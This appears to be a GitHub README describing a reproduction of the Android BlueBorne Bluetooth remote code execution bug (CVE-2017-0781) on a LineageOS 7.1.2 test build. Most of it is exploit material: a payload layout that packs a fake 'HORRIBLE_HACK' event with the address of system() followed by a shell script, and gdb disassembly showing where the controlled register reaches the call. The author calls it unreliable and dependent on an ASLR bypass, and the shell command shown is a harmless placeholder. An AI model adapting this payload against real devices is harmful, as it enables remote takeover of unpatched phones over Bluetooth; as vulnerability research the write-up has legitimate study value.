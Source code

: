 # android712-blueborne

For testing purposes removed the CVE-2017-0781 pathces and compiled 7.1.2 (LineageOS CM 14.1) on my Samsung S3 Neo+ GT-9301I

Android Blueborne RCE CVE-2017-0781

Tricky to pull off.... not reliable. Since you have to know REMOTE_NAME address, as well as defeate ALSR.

Control r4 register which is REMOTE_NAME

Payload is:
```
SHELL_SCRIPT = b'touch /tmp/test'

Payload is: '"\x17AAAAAAsysm";\n<bash_commands>\n#'
'sysm' is the address of system() from libc. The *whole* payload is a shell script.
0x1700 == (0x1722 & 0xff00) is the "event" of a "HORRIBLE_HACK" message.
payload = struct.pack('<III', 0x41411722, 0x41414141, system_addr) + b'";\n' + SHELL_SCRIPT + b'\n#'
```

After dozen of executions got this condition in

bt_workqueue

```
(gdb) x/30i 0xacda11c4
=> 0xacda11c4:	ldrh	r1, [r4, #0]
   0xacda11c6:	bic.w	r0, r1, #255	; 0xff
   0xacda11ca:	cmp.w	r0, #5632	; 0x1600
   0xacda11ce:	bge.n	0xacda11ec
   0xacda11d0:	cmp.w	r0, #4096	; 0x1000
   0xacda11d4:	beq.n	0xacda1206
   0xacda11d6:	cmp.w	r0, #4352	; 0x1100
   0xacda11da:	beq.n	0xacda1230
   0xacda11dc:	cmp.w	r0, #4608	; 0x1200
   0xacda11e0:	bne.n	0xacda1250
   0xacda11e2:	mov	r0, r4
   0xacda11e4:	ldmia.w	sp!, {r4, lr}
   0xacda11e8:	b.w	0xacd738a4
   0xacda11ec:	beq.n	0xacda123a
   0xacda11ee:	cmp.w	r0, #6400	; 0x1900
   0xacda11f2:	beq.n	0xacda1246
   0xacda11f4:	cmp.w	r0, #5888	; 0x1700
   0xacda11f8:	bne.n	0xacda1250
   0xacda11fa:	ldr	r1, [r4, #8]
   0xacda11fc:	mov	r0, r4
   0xacda11fe:	blx	r1
   0xacda1200:	ldr	r0, [pc, #92]	; (0xacda1260)
   0xacda1202:	add	r0, pc
```

As we can see our system call should be executed on  0xacda11fe

